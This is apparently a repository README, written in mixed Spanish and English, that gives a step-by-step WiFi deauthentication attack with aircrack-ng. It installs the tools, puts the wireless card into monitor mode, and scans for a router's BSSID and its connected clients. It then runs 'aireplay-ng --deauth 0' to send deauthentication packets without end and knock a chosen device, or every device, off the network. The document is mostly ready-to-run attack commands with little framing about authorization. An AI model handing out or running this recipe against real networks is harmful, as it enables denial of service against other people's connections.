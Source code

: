 ﻿

# Forcing a device to disconnect from WiFi using a deauthentication attack

***A deauthentication attack is a type of attack which targets the communication between router and the device. Effectively disabling the WiFi on the device.***

> Asegurate estar como usario *root*. Ahora ejecuta el sig comando.

```bash
apt install aircrack-ng
```

>Verificar cual es nuestra interfaz con el sig comando'. 
```bash
iwconfig
```

> El sig comando se utiliza para iniciar el modo monitor en la interfaz inalámbrica especificada (en este caso, `wlan0` pero puede cambiar segun la interfaz del hardware). El modo monitor permite que la tarjeta de red capture todos los paquetes en la frecuencia seleccionada, lo cual es útil para tareas de auditoría de redes inalámbricas.**Sin comillas simples**
```bash
airmon-ng start 'wlp0s20f3'
```
> capturar y mostrar información sobre las redes inalámbricas en tu área. **Sin comillas simples**
```bash
airodump-ng 'wlan0mon'
```

> Encontrar los dispositivos que se encuentren en la red. 
> bssid: dirección MAC del router
> channel: El canal en el que opera el router.

```bash
airodump-ng wlan0mon --bssid [routers BSSID here] --channel [routers channel here]
```

### Explicacion del comando anterior.
-   `airodump-ng`: La herramienta de captura de paquetes.
-   `wlan0mon`: La interfaz inalámbrica en modo monitor.
-   `--bssid 00:11:22:33:44:55`: Filtra los paquetes para capturar solo los asociados con el BSSID especificado.
-   `--channel 6`: Limita la captura a los paquetes en el canal especificado.

Ya conociendo la MAC y el canal del dispositivo es momento de atacar 

> El comando `aireplay-ng --deauth` se utiliza para enviar paquetes de desautenticación a una red inalámbrica, lo cual puede desconectar dispositivos específicos o todos los dispositivos de esa red.
```bash
aireplay-ng --deauth 0 -c [DEVICES MAC ADDRESS] -a [ROUTERS MAC ADDRESS] wlan0mon
```
### Explicacion del comando anterior.
-   `--deauth [number of deauth packets]`: Especifica el número de paquetes de desautenticación a enviar. Usar `0` enviará paquetes de desautenticación de manera continua.
-   `-c [target device MAC address]`: La dirección MAC del dispositivo que deseas desconectar. Si no especificas esto, se intentará desconectar todos los dispositivos de la red.
-   `-a [AP MAC address]`: La dirección MAC del punto de acceso (router).
-   `[interface]`: La interfaz en modo monitor (por ejemplo, `wlan0mon`).

### Restablecer la Interfaz de red

```bash
airmon-ng stop 'wlan0mon'
```
Esto nos ayudara a restablcer nuesta tarjeta de red normalmente sin tener que hacer un reboot. 

#### Referencias
https://hackernoon.com/forcing-a-device-to-disconnect-from-wifi-using-a-deauthentication-attack-f664b9940142
